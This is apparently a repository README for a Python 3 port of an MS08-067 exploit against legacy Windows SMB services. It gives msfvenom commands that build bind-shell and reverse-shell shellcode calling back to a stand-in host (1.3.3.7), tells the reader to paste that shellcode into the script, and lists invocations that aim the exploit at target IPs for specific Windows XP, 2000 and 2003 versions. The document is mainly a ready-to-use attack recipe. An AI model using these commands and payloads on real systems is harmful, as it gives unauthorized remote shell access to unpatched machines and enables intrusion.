 # MS08-067 Python exploit script updated for Python 3

This is an updated version of a MS08-067 Python exploit script to make it compatible with Python 3. 

It is based on Andy Acer's code.
Cloned and edited from this repository:  
https://github.com/andyacer/ms08_067

## Dependencies

You will need to install Impacket and Pycrypto

```
pip install impacket
pip install pycrypto
```

## Generating Shellcode

Example msfvenom commands to generate shellcode.  Just paste these into the file which you'll edit after downloading.

```
msfvenom -p windows/shell_bind_tcp RHOST=192.168.1.1 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

msfvenom -p windows/shell_reverse_tcp LHOST=1.3.3.7 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

msfvenom -p windows/shell_reverse_tcp LHOST=1.3.3.7 LPORT=62000 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```
## Usage

Usage: 
```
python3 ms08_067_python3.py <target ip> <os #> <Port #>
```

* ms08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445
* ms08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)
* ms08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal
* ms08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English
* ms08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)
* ms08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)
* ms08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)
